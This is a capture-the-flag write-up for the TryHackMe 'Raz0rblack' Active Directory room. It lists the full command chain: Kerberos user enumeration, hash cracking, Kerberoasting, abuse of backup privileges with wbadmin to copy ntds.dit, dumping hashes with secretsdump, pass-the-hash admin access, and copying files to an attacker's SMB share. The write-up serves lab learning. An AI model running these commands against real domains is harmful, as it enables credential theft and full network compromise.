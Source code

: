 # Raz0rblack

https://tryhackme.com/room/raz0rblack

A good AD room, with some interesting windows privesc. Worth writing up as some of this stuff is finicky.

Via the flag submission panel, some users can be gathered. HOWEVER, this writeup assumes you don't do this.

1. `nmap -A` over the machine will reveal the domain controller name is **raz0rblack.thm**
2. kerbrute (obtainable [here](https://github.com/ropnop/kerbrute)) run as following will reveal a number of users: `kerbrute userenum -d raz0rblack.thm --dc <ip> /usr/share/wordlists/SecLists/Usernames/x
ato-net-10-million-usernames.txt`: administrator, **twilliams** (with a hash) and **sbradley**.
3. The hash for **twilliams** can be broken with hashcat, rockyou and  `-m 18200`, revealing the password for this user.
4. With credentials, the rest of the users can be gathered via impacket's lookupSID: `python3 /opt/impacket/examples/lookupsid.py raz0rblack.thm/twilliams:roastpotatoes@10.10.
115.139`, revealing two additional users, **xyan1d3** and **lvetrova**.
5. By adding **xyan1d3** and **lvetrova** to users.txt, we can then attempt to kerbroast: `/opt/impacket/examples/GetUserSPNs.py -dc-ip <ip> raz0rblack.thm/twilliams -outputfile
hashes.kerbroast` (this will prompt for a password) which will reveal a hash for the user **xyan1d3**.
6. The hash from above can be broken with hashcat, rockyou and `-m 13100` to get the password for **xyan1d3**.
7. Using this password with evil-winrm we can get an interactive session as this user: `evil-winrm -i <ip> -u xyan1d3 -p <password>`
8. **xyan1d3** has the following permissions: 

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Meaning that getting a credential dumb via backups should be possible.

9. A backup of ntds.dit can be made as so: `echo y | wbadmin start backup -backuptarget:\\localhost\c$\users\xyan1d3\Doc
uments -include:c:\windows\ntds\`. This will put the backup in the user's documents folder (note the use of a local c$ share to satisfy both the requirement of a share and the target being ntfs)
10. To extract the ntds.dit, the version id of the backup can be obtained via `wbadmin get versions`, and then the file can be gathered via `echo Y | wbadmin start recovery -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:Z:\ -notrestoreacl -version:<version-id>`
11. Finally, gathering the sam hive and system hive via `reg save hklm\sam sam.save` and `reg save hklm\system system.save`, the hashes for users can be extracted via `secretsdump.py -system System.hive -sam Sam.hive -ntds ntds.dit LOCAL`.
12. With the admin hash from above, complete system compromise can be obtained via evil-winrm and passing the hash: `evil-winrm -i <ip> -u administrator -H <hash>`

With admin some flags are readable, and the system can be enumerated completely. However, there are flags in the lvetrova and xyan1d3 user folders which are encoded as powershell/.net secure strings: these can only be decoded as the user in question. lvetrova can be logged on via her hash just as admin. Then, running a command like the following will read the flag: `(Import-Clixml -Path ".\lvetrova.xml").GetNetworkCredential().Password`.

Other flags are hex encoded, inside a dummy exe file, and in secret folders, `Program Files/Top Secret` and `Windows/trash`. The trash folder is intended to be accessed over smb, it looks, but can be opened directly via admin. Notably, the zip inside the trash folder may well contain the ntds.dit and system file required to dumb hashes without all the wbadmin malarkey above, haha.

## Getting files back to the kali box

For getting files from the windows machine to an attack host:

- open a smb share using impacket on the attack host: `smbserver.py share . -username share -password share -smb2support`
- map a drive to this share via net use (for some reason, direct copy never seemed to work): `net use z: \\10.10.61.105\share /user:share share`

Then you can just copy files normally to `z:\`
